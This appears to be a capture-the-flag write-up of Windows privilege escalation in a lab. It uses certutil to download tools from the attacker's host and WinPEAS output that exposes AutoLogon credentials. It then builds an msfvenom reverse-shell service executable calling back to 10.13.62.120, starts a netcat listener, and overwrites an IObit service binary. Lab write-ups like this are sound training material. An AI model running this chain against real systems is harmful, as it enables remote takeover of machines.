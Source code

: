 Lets use Certutil.exe to get this onto the machine, since we are not a meterpreter prompt - though you may use that if you'd like. 

I copied the code from that link into a file called powerup.ps1 and saved it in the working directory of the web server I still have running.

`certutil.exe -urlcache http://<my ip>/powerup.ps1 powerup.ps1`

```
C:\>cd temp
cd temp

C:\temp>certutil.exe -urlcache -f http://10.13.62.120/powerup.ps1 powerup.ps1
certutil.exe -urlcache -f http://10.13.62.120/powerup.ps1 powerup.ps1
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

The powerup.ps1 seems to freeze my box, so I will then instead use winpeas.

Upload it the same way and execute it. We get some neat output. The room tells us to look for services.

![[BlueMountainWinPeas.png]]

With this, we can generate a payload that will give us a reverse shell. We may be able to RDP now, though.
```
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  bill
    DefaultPassword               :  PMBAf5KhZAxVhvqb
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.62.120 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe-service file: 15872 bytes
Saved as: ASCService.exe
```

Then start our netcat listener
`nc -lvnp 4443`

We upload that exe with the same cert util, then we copy it into the program files location.

`net stop AdvancedSystemCareService9`

```
copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced Systemcare"
copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced Systemcare"
Overwrite C:\Program Files (x86)\IObit\Advanced Systemcare\ASCService.exe? (Yes/No/All): yes
yes
        1 file(s) copied.
```
